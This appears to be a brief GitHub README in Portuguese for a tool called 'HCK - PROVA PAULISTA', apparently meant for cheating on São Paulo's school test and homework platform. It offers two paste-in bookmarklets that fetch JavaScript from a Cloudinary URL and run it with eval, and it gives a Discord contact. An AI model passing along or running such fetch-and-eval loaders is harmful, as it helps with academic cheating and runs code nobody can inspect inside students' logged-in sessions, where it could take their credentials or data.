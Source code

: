# 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### FANDAGOS - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745786682/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
